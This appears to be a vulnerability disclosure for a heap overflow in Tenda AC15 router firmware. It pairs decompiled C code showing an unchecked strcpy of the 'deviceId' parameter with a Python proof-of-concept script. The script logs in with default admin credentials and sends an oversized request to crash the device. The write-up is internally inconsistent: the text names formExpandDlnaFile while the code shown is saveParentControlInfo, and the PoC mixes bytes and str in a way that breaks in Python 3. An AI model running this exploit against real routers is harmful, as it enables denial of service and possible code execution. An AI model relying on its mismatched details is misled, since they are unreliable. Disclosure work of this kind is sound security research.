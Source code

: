 ## Tenda AC15 multiple heap overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function formExpandDlnaFile, the content obtained by the program from the parameter "deviceId" is passed to local_28, 
and then the local_28 is directly copied into the local_50 heap through the strcpy function.
There is no size check, so there is a heap overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void saveParentControlInfo(undefined4 param_1)

{
  int iVar1;
  undefined uVar2;
  bool bVar3;
  undefined4 local_3d8;
  undefined4 local_3d4;
  undefined4 local_3d0;
  undefined4 local_3cc;
  undefined4 local_3c8;
  undefined4 local_3c4;
  undefined4 local_3c0;
  undefined4 local_3bc;
  undefined4 local_3b8;
  undefined4 local_3b4;
  undefined4 local_3b0;
  undefined4 local_3ac;
  undefined4 local_3a8;
  undefined4 local_3a4;
  undefined4 local_3a0;
  undefined4 local_39c;
  int local_398;
  char acStack916 [128];
  int aiStack788 [30];
  undefined4 local_29c;
  undefined2 local_298;
  char local_296 [2];
  undefined auStack660 [512];
  undefined auStack148 [64];
  undefined *local_54;
  void *local_50;
  char *local_4c;
  char *local_48;
  undefined4 local_44;
  char *local_40;
  char *local_3c;
  char *local_38;
  char *local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  undefined4 local_24;
  undefined4 local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  memset(auStack148,0,0x40);
  memset(auStack660,0,0x200);
  local_29c = 0;
  local_298 = 0;
  local_296[0] = '\0';
  local_18 = 0;
  local_1c = 0;
  local_14 = 0;
  memset(aiStack788,0,0x78);
  memset(acStack916,0,0x80);
  local_20 = 0;
  local_398 = 0;
  local_24 = 0;
  local_28 = (char *)FUN_0002ba8c(param_1,"deviceId",&DAT_000edd28);  //here
  local_2c = (char *)FUN_0002ba8c(param_1,"enable",&DAT_000edd28);
  local_30 = (char *)FUN_0002ba8c(param_1,"time",&DAT_000edd28);
  local_34 = (char *)FUN_0002ba8c(param_1,"url_enable",&DAT_000edd28);
  local_38 = (char *)FUN_0002ba8c(param_1,"urls",&DAT_000edd28);
  local_3c = (char *)FUN_0002ba8c(param_1,"day",&DAT_000edd28);
  local_40 = (char *)FUN_0002ba8c(param_1,"block",&DAT_000edd28);
  local_44 = FUN_0002ba8c(param_1,"connectType",&DAT_000edd28);
  local_48 = (char *)FUN_0002ba8c(param_1,"limit_type",&DAT_000eddc8);
  local_4c = (char *)FUN_0002ba8c(param_1,"deviceName",&DAT_000edd28);
  ...
  local_50 = malloc(0x254); //alloc memory
  memset(local_50,0,0x254); 
  strcpy((char *)((int)local_50 + 2),local_28); //here is overflow
  local_54 = (undefined *)malloc(0x254);
  memset(local_54,0,0x254);
  SetValue("parent.global.en",&DAT_000eddc8);
  SetValue("filter.url.en",&DAT_000eddc8);
  SetValue("filter.mac.en",&DAT_000eddc8);
  strcpy(local_54 + 2,local_28);  //here is overflow
  strcpy(local_54 + 0x22,local_30);
  ...
}
```

### * POC
```python
import requests


cmd  = b'deviceId=' + b'A' * 800 + '&enable=&time=&url_enable=&urls=&day=&block=&connectType=&limit_type='
cmd += b'&deviceName='


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/saveParentControlInfo/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
